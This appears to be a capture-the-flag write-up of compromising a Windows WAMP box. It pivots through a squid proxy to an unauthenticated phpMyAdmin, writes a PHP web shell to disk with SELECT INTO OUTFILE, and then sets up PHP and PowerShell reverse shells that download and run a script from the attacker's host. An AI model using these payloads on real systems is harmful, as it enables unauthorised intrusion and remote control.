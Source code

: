 
nmap scan found squid proxy on port 3128
Connected to squid proxy and ran port scan on localhost
Found 8080
Went to 8080 and found phpinfo() and phpmyadmin
Logged into phpmyadmin with user:root, no password
In phpmyadmin created table tmp_tbl
```mysql
CREATE TABLE tmp_tbl (firstname varchar(255), lastname varchar(255));
```
Inserted php into column of tmp_tbl:
```php
<?php system($_GET["cmd"]); ?>
```
Checked web server location in PHPMyadmin, found at C:/wamp/www
Output the PHP by running the following command:
```mysql
SELECT firstname INTO OUTFILE 'C:/wamp/www/cmd.php' FROM tmp_tbl
```
Upon hitting `http://box-ip:8080/cmd.php?cmd=ipconfig` we found the script successfully ran and showed ipconfig output
Run nc listener locally
Tried running netcat through cmd.php but unsuccessful
UPDATE row in tmp_tbl to be the following:
```php
<?php set_time_limit(0); $ip = "<listening-ip>"; $port = listening-port; $sock = fsockopen($ip, $port); while(!feof($sock)) {$command = fgets($sock, 1024);$output = shell_exec($command);fwrite($sock, $output);} fclose($sock); ?>
```
Ran the INTO OUTFILE command again this time calling it shell.exe
Upon hitting this in a web request successfully gain a shell but "dumb" shell. Unable to escalate to powershell or cmd, however found a way on serverfault: https://serverfault.com/questions/588151/how-to-execute-a-reverse-powershell-shell-using-ncat-or-netcat
On local machine ran
```
python3 -m http.server 4444
```
In new tab ran
```
nc -lnvp 1338
```
Then, finally, in the "dumb" shell ran
```
powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<attacking-machine-port>:4444/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress <attacking-machine-port> -Port 1338"
```
And boom we have a reverse powershell connection 

From here just find the user flag, which was just a txt file located in C:\
